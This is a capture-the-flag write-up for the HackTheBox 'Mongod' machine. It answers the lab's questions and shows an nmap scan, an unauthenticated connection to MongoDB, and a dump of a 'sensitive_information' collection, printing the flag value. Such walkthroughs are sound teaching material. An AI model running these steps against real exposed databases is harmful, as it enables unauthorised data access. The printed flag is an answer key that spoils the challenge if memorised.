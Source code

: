 ```yaml
---
title: HTB - Mongod
date: 2023-08-01
categories: [HackTheBox, Machines]
tags: [mongodb]
---
```


# Mongod

_How many TCP ports are open on the machine?_

`2`

_Which service is running on port 27017 of the remote host?_

```bash
$ nmap -sV -p- <ip>
...
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
...

```

_What type of database is MongoDB?_

`NoSQL`

_What is the command name for the Mongo shell that is installed with the mongodb-clients package?_

`mongo`

_What is the command used for listing all the databases present on the MongoDB server?_

`show dbs`

_What is the command used for listing out the collections in a database?_

`show collections`

_What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?_

`db.flag.find().pretty()`

_Submit root flag_

```bash
# Download binaries
$ curl -O <https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz>

$ tar xvf mongodb-linux-x86_64-3.4.7.tgz

$ cd mongodb-linux-x86_64-3.4.7.tgz

$ ./bin/mongo mongodb://<ip>:27017
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use sensitive_information
switched to db sensitive_information
> show collections
flag
> db.flag.find().pretty()
{
	"_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
	"flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
```
